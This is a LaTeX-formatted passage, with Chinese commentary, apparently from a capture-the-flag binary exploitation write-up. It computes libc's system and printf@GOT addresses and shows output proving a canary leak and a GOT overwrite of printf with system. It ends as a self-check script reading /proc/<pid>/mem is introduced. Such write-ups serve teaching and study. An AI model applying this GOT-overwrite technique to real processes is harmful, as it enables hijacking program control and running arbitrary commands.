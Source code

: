 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{system     }\OperatorTok{=}\NormalTok{ libc\_base }\OperatorTok{+} \BaseNTok{0x58740}
\NormalTok{printf\_got }\OperatorTok{=}\NormalTok{ pie\_base  }\OperatorTok{+} \BaseNTok{0x4010}
\end{Highlighting}
\end{Shaded}

\paragraph{洩漏與覆寫的「鐵證」（直接讀目標行程記憶體）}\label{ux6d29ux6f0fux8207ux8986ux5bebux7684ux9435ux8b49ux76f4ux63a5ux8b80ux76eeux6a19ux884cux7a0bux8a18ux61b6ux9ad4}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{maps   libc=0x7f59a7200000 pie=0x7f59a7559000}
\NormalTok{leaked libc=0x7f59a7200000 pie=0x7f59a7559000  {-}\textgreater{} match: True}
\NormalTok{canary=0xf45bad45e803db00  (ends 00: True)}
\NormalTok{printf@GOT before write: 0x7f59a72600f0  (libc printf = 0x7f59a72600f0)}
\NormalTok{printf@GOT after  write: 0x7f59a7258740  (system     = 0x7f59a7258740)  {-}\textgreater{} True}
\end{Highlighting}
\end{Shaded}

（用 \texttt{/\allowbreak{}proc/\allowbreak{}\textless{}\allowbreak{}pid\textgreater{}\allowbreak{}/\allowbreak{}maps} 比對載入位址、用
\texttt{/\allowbreak{}proc/\allowbreak{}\textless{}\allowbreak{}pid\textgreater{}\allowbreak{}/\allowbreak{}mem} 直接讀
GOT，證明我們算的位址完全正確。）

\textbf{這段是可以自己重跑、自己證明的}（不需要
gdb，也不需要相信任何人的數字）。 把下面存成 \texttt{pwn2/\allowbreak{}selfcheck.\allowbreak{}py}
執行，你會看到「GOT 真的變成 \texttt{system}」：
\end{document}
